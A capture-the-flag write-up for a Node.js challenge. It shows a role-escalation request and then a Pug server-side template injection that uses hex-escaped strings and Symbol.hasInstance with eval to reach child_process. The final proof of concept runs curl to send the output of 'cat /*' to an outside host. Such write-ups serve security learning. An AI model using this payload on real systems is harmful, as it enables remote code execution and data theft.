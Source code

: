 # NodeJS Enthusiast

This is my first time using Node.js, and I am pretty sure that this code is bug free

## Author
daffainfo

## Difficulty
Medium

## Writeup
1. Change the role from user to admin

```
POST /profile HTTP/1.1
Host: 127.0.0.1:21291
Content-Length: 11
Content-Type: application/x-www-form-urlencoded
Cookie: connect.sid=xxxx

role=àdmin
```

2. SSTI in Pug JS using `Symbol.hasInstance` and then call `eval` function

```
#{x = 'global.p\x72ocess.mainModule.constructor._load\x28\x27child_p\x72ocess\x27\x29.exec\x28"curl+daffa.info:1337+-d\s=\x60cat+/*\x60"\x29'}
#{x instanceof { [Symbol.hasInstance]: eval } }
```

The final poc would be something like this:

```
GET /admin?name=%23{x='global.p\x72ocess.mainModule.constructor._load\x28\x27child_p\x72ocess\x27\x29.exec\x28"curl+daffa.info:1337+-d\s=\x60cat+/*\x60"\x29'}%23{x+instanceof+{+[Symbol.hasInstance]:+eval+}} HTTP/1.1
Host: 127.0.0.1:21291
Cookie: connect.sid=xxxx
```

Reference:
- https://stackoverflow.com/questions/35949554/invoking-a-function-without-parentheses